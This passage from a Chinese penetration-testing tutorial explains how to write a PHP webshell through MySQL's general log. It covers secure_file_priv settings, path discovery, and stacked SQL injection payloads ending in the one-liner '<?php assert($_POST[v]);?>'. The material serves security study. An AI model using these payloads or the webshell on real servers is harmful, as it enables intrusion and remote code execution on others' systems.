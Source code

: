```php
2 rows in set (0.03 sec)

```

然后在D盘下就出现`1.log`成为新的日志文件了。但是最后也要考虑能不能成功的连接到马，像如果`secure_file_priv`固定为G:\\，而网站是搭在D盘上，那把`general_log_file`修改为G盘下的文件也连接不到，除非还有文件包含漏洞等等。

`show global variables like '%secure%'`;查看可以写入的磁盘。  
（1）当secure\_file\_priv为空，就可以写入磁盘的目录。  
（2）当secure\_file\_priv为G:\\，就可以写入G盘的文件。  
（3）当secure\_file\_priv为null，into outfile就不能写入文件。（注意NULL不是我们要的空，NULL和空的类型不一样）

secure\_file\_priv=""就是可以into outfile写入任意磁盘文件。

secure\_file\_priv设置通过设置my.ini来配置，不能通过SQL语言来修改，因为它是只读变量，secure\_file\_priv设置具体看这里：

若secure\_auth为ON，则用以下方法变为OFF（mysql查询默认是不区分大小写的）

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5242d13822b3bbbb2d0c8b96760af6ce1a13bba5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5242d13822b3bbbb2d0c8b96760af6ce1a13bba5.png)

secure\_file\_priv不能通过此方法修改，因为报错为Variable 'XXX' is a read only variable。报错原因及修改方法为：  
参数为只读参数，需要在mysql.ini配置文件中更改该参数，之后重启数据库

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-af151b954ae47b50288298c9a9a72b55d2eb7a57.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-af151b954ae47b50288298c9a9a72b55d2eb7a57.png)

将secure\_file\_priv为空的正确方法（注意NULL不是我们要的空，NULL和空的类型不一样）

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9410cb7535985a05f816233fc15434b4f98311c9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9410cb7535985a05f816233fc15434b4f98311c9.png)

3.对web目录有写权限MS的系统就不说了，一般都会有权限的，但是linux的系统，通常都是rwxr-xr-x，也就是说组跟其他用户都没有权限写操作。

4.知道物理路径（into outfile '物理路径'), 这样才能写对目录。

查`select @@b asedir;`——MySQL数据库安装的绝对路径：

```php
mysql> select @@b asedir;
+--------------------------------+
| @@b asedir                      |
+--------------------------------+
| D:/phpStudy/PHPTutorial/MySQL/ |
+--------------------------------+
1 row in set (0.07 sec)

```

5.（1）union注入在这里行不通。

因为要日志写马能够连接必须要修改`general_log_file`为比如`php`后缀的文件，不然马不能被解析。所以必须要先用到`set global general_log_file='...php';`，那么union注入就没机会了，union基本都是`?id=1 union select 1,2,select '<?php assert($_POST[v]);?>';`这样，不能执行`set`的。

（2）有堆叠注入，要先`?id=1;set global general_log_file='...php';`，然后直接执行`?id=1;select '<?php assert($_POST[v]);?>';`
